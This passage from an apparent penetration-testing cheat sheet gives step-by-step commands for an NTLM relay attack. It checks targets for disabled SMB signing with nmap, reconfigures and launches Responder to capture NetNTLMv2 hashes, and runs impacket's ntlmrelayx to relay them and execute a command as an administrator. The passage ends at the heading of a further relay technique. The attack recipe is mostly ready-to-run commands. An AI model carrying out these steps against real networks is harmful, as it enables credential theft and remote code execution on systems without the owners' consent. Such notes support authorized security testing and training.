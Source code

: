 7. Don't forget to restore the Responder configuration when you're finished!

---

## Relay NetNTLMv2 Hashes to Execute a Command

* SMB signing must be disabled on the target
* Relayed user credentials must be administrator on the target

1. Ensure the target(s) have SMB signing disabled

    ```bash
    nmap -Pn --script=smb2-security-mode.nse -p445 $TARGETS
    ```

2. Turn off SMB and HTTP responding within Responder by editing the Responder configuration file

    ```conf
    # /usr/share/Responder/Responder.conf

    ; Servers to start
    ...
    SMB = Off
    ...
    HTTP = Off
    ...
    ```

3. Fire up Responder

    ```bash
    responder -I $INTERFACE_TO_LISTEN_AND_RESPOND_ON -rdwv
    ```

4. Fire up the relay

    ```bash
    cd /usr/share/impacket
    python3 examples/ntlmrelayx.py -tf $TARGETS_FILE -smb2support -c $COMMAND
    ```

    * $TARGETS_FILE: file of hostname or IP addresses to attempt to relay the captured hash(es) to

5. Let it run. If Responder catches a credential, ntlmrelayx.py will relay it to the target. If the relay succeeds, ntlmrelayx.py will execute the command, but you will **not** receive the output.

6. Don't forget to restore the Responder configuration when you're finished!

---

## Relay NetNTLMv2 Hashes to Run a Target-Local Executable

* SMB signing must be disabled on the target
* Relayed user credentials must be administrator on the target
